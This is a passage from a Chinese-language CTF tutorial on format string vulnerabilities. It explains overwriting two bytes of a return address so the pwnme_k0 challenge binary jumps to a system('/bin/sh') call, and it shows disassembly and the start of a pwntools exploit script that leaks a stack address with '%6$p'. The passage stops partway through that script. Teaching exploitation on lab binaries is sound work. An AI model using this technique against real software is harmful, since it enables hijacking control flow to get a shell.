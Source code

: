 ![fmrstr_3.png](_images/格式化字符串漏洞基础例子/fmrstr_3.png)

0x0000000000400d74 与 0x00000000004008A6 只有低 2 字节不同，所以我们可以只修改 0x00007fffffffdb48 开始的 2 个字节。

这里需要说明的是**在某些较新的系统 (如 ubuntu 18.04) 上, 直接修改返回地址为 0x00000000004008A6 时可能会发生程序 crash**, 这时可以考虑修改返回地址为 0x00000000004008AA, 即直接调用 system("/bin/sh") 处

```shell
.text:00000000004008A6 sub_4008A6      proc near
.text:00000000004008A6 ; __unwind {
.text:00000000004008A6                 push    rbp
.text:00000000004008A7                 mov     rbp, rsp
.text:00000000004008AA <- here         mov     edi, offset command ; "/bin/sh"
.text:00000000004008AF                 call    system
.text:00000000004008B4                 pop     rdi
.text:00000000004008B5                 pop     rsi
.text:00000000004008B6                 pop     rdx
.text:00000000004008B7                 retn
```

#### 利用程序 

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
# @File    : pwnme_k0.py
from pwn import *
context.log_level = 'debug'

p = process("./pwnme_k0")
elf = ELF("./pwnme_k0")

# leak stack addr
payload = 'a'*0x8 + "%6$p"

p.recvuntil("20): \n")
p.send(payload)
p.recvuntil("20): \n")
p.send(payload)

p.recvuntil('>')
#gdb.attach(p,'b printf')
```